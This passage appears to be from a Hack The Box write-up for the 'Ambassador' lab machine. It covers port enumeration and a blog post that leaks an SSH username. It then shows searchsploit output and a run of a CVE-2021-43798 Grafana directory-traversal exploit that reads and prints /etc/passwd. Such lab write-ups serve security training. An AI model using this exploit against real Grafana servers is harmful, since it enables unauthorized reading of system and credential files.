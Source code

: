 We found 2 webpages, a blog in port 80 and Grafana listening in port 3000. Then we have a MySQL database in port 3306 and SSH in port 22, I will try to focus the webpages first.

## User access

### Port 80

This page reveals important information. There is a post that explains that every new employee get access to a personal development server like the one we are attacking right now, the user for SSH is `developer` and the password is given by a user or group called `DevOps`.

Apart from that, not much here.

### Grafana (Port 3000)

This is a Grafana application for monitoring. It is asking for login but I noticed that the version was v8.2.0. Checking for exploits I found that it is vulnerable to LFI and directory traversal (CVE-2021-43798):

```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit grafana      
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)       | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbit | multiple/webapps/50581.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Testing the exploit for Grafana v8.3.0 it worked like a charm:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Ambassador]
└─$ python3 CVE-2021-43798.py -H http://10.10.11.183:3000
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
```